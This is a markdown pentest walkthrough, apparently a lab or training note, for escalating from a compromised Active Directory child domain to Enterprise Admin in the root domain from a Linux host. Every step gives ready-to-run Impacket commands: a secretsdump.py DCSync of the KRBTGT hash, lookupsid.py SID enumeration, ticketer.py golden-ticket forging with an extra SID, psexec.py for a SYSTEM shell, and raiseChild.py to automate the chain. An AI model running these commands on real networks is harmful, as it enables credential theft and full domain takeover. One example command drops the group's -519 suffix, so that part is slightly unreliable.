 <img width="496" height="45" alt="image" src="https://github.com/user-attachments/assets/9e8676d8-86b6-4c6a-8e30-0399740ee7f3" />To perform this attack from a **Linux attack host**, we  need to gather the following:

* The **KRBTGT hash** of the **child domain**
* The **Security Identifier (SID)** of the **child domain**
* The **Fully Qualified Domain Name (FQDN)** of the **child domain**
* The **SID of the Enterprise Admins group** in the **root domain**
* The **name of a target user** within the child domain (*note: the account does not need to actually exist*)

Once all of this data is collected, the attack can be carried out using the appropriate tools from the Linux environment (e.g., **Impacket**).

1. Get **KRBTGT hash** of the **child domain**
Performing DCSync with `secretsdump.py`
```shell
secretsdump.py <Child Domain>/<Compromised User>@<Compromised Tareget IP> -just-dc-user Child/krbtgt
secretsdump.py logistics.CORP.local/STEVE@10.10.10.211 -just-dc-user LOGISTICS/krbtgt
```
<img width="1987" height="380" alt="image" src="https://github.com/user-attachments/assets/cc213cc4-d5db-49e6-aadd-63545e2f4c77" />

2. Using lookupsid.py from the Impacket toolkit to perform SID brute forcing to find the **SID of the child domain**
```shell
lookupsid.py <Child Domain>/<Compromised User>@<Compromised Tareget IP> | grep "Domain SID"
lookupsid.py logistics.CORP.local/STEVE@10.10.10.211 | grep "Domain SID"
```
<img width="1884" height="210" alt="image" src="https://github.com/user-attachments/assets/ae3176db-1b5d-4082-9bd3-3349c1553de5" />

3. Get **SID of the Enterprise Admins group** in the **root domain**

```shell
lookupsid.py <Child Domain>/<Compromised User>@<DC Tareget IP> | grep -B12 "Enterprise Admins"
lookupsid.py logistics.CORP.local/STEVE@10.10.10.5 | grep -B12 "Enterprise Admins"
```
<img width="1534" height="498" alt="image" src="https://github.com/user-attachments/assets/e4f122ee-6c3e-462e-a155-77b5f2188898" />
SID of the Enterprise Admins will be Domain SID + CORP\Enterprise Admins (SidTypeGroup)
In Current Example = `S-1-5-21-3842939050-3880317879-2865463114-519`

4. Constructing a Golden Ticket using ticketer.py

```shell
ticketer.py -nthash <NTHash From Compromised User> -domain <Child Domain> -domain-sid <ChildDomain SID> -extra-sid <SID of the Enterprise Admins group> <Fake name of a target user>

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.CORP.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114 AnubisXploit
```
<img width="2559" height="346" alt="image" src="https://github.com/user-attachments/assets/269fbc13-73ca-422e-8348-1a0d69638a72" />
<img width="1398" height="72" alt="image" src="https://github.com/user-attachments/assets/5d90b485-0912-4d35-8b16-fcb059e3ebcd" />

5. Setting the KRB5CCNAME Environment Variable
```shell
export KRB5CCNAME=AnubisXploit.ccache
```

6. Getting a SYSTEM shell using Impacket's psexec.py
```shell
psexec.py <Child Domain>/<Fake Created User>@<Domain Controller> -k -no-pass -target-ip <DC-IP>

psexec.py LOGISTICS.CORP.LOCAL/AnubisXploit@dc01.corp.local -k -no-pass -target-ip <DC-IP>
```

---

## Using Automated Impacket Tool
```shell
raiseChild.py -target-exec <Domain Controller IP> <Child Domain>/<Compromised User>

raiseChild.py -target-exec 10.10.10.5 logistics.CORP.local/STEVE
```


